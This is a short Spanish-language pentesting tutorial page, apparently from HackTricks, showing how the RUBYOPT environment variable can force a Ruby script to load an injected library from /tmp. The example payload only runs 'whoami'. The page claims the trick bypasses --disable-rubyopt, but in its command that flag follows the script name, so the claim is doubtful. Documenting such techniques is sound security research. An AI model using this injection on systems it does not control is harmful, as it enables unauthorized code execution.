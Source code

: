 # Inyección de Aplicaciones Ruby en macOS

{{#include ../../../banners/hacktricks-training.md}}

## RUBYOPT

Usando esta variable de entorno es posible **agregar nuevos parámetros** a **ruby** cada vez que se ejecuta. Aunque el parámetro **`-e`** no se puede usar para especificar código ruby a ejecutar, es posible usar los parámetros **`-I`** y **`-r`** para agregar una nueva carpeta a la ruta de carga de bibliotecas y luego **especificar una biblioteca para cargar**.

Crea la biblioteca **`inject.rb`** en **`/tmp`**:
```ruby:inject.rb
puts `whoami`
```
Crea un script de ruby en cualquier lugar como:
```ruby:hello.rb
puts 'Hello, World!'
```
Luego, haz que un script de ruby arbitrario lo cargue con:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb
```
Dato curioso, funciona incluso con el parámetro **`--disable-rubyopt`**:
```bash
RUBYOPT="-I/tmp -rinject" ruby hello.rb --disable-rubyopt
```
{{#include ../../../banners/hacktricks-training.md}}
